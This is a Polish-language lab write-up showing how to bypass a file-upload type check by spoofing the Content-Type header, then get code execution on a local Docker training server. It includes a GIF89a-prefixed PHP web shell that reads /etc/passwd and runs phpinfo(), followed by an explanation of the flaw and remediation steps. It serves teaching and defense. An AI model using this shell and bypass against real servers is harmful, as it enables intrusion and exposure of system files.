



# Zadanie 5.2 — Arbitrary File Upload → RCE z obejściem kontroli typu (CWE-434)

**Cel:** serwer HTTP na `127.0.0.1:8002` sprawdza typ przesyłanego pliku, ale
weryfikuje go po nagłówku **`Content-Type`** (który ustawia klient). Wgrywamy
plik `.php` deklarując, że to obrazek (`image/png`), i doprowadzamy do **RCE** —
plik wyświetla `/etc/passwd` oraz `phpinfo()`.

- **Podatność:** CWE-434 + słaba walidacja typu (zaufanie do `Content-Type` klienta)
- **Serwer:** Apache/2.4.54 (Debian), PHP 7.4.33, endpoint uploadu `POST /send.php`
- **Hint z zadania:** „skąd serwer wie, jaki plik wysyłamy?" → po nagłówku MIME,
  który jest kontrolowany przez klienta, więc można go sfałszować.

---

## a) Uruchomienie podatnego serwera

```bash
sudo docker run -dp 8002:80 --name rcex2 docker.io/mazurkatarzyna/rce-ex2
```

## b) Atak

### 1. Plik „udający obraz" (`shell2.php`)

Na początku pliku nagłówek `GIF89a` (magic bytes obrazka), dalej kod PHP:

```php
GIF89a
<?php
echo "<h2>/etc/passwd</h2><pre>";
readfile('/etc/passwd');
echo "</pre>";

echo "<h2>phpinfo()</h2>";
phpinfo();
?>
```

### 2. Wgranie z podmienionym Content-Type (Burp Repeater)

Upload przez formularz, przechwycony w Burpie i wysłany do Repeatera. W części
multipart z plikiem zmieniono typ MIME:

```
Content-Disposition: form-data; name="file"; filename="shell2.php"
Content-Type: image/png            <-- podmienione z application/x-php
```

Serwer odpowiedział **HTTP/1.1 200 OK** — plik zaakceptowany (obejście filtra).



### 3. Lokalizacja wgranego pliku

```
http://127.0.0.1:8002/uploads/
```



### 4. Uruchomienie — /etc/passwd + phpinfo()

```
http://127.0.0.1:8002/uploads/<timestamp>_shell2.php
```

Serwer wykonał kod PHP (mimo deklarowanego typu `image/png`) i zwrócił
zawartość `/etc/passwd` oraz pełną tabelę `phpinfo()` (PHP 7.4.33).



---

## Na czym polega błąd

Walidacja typu pliku opiera się na nagłówku `Content-Type` z żądania, który w
całości kontroluje klient. Deklarując `image/png` dla pliku `.php` omija się
kontrolę, a Apache i tak interpretuje plik jako PHP (po rozszerzeniu).

## Jak naprawić

- Nie ufać `Content-Type` od klienta — sprawdzać **rzeczywistą** zawartość
  (np. `finfo_file`, magic bytes) i rozszerzenie z whitelisty.
- Wyłączyć wykonywanie PHP w katalogu uploadów (`php_admin_flag engine off`).
- Zapisywać pliki poza katalogiem serwowanym przez web, z wymuszonym
  bezpiecznym rozszerzeniem i losową nazwą.
- Wyłączyć listowanie katalogów (`Options -Indexes`).

## Różnica wobec 5.1

W 5.1 serwer nie sprawdzał typu w ogóle (czysty `.php` przechodził). W 5.2
dochodzi kontrola `Content-Type`, obchodzona sfałszowaniem nagłówka MIME na
`image/png`.
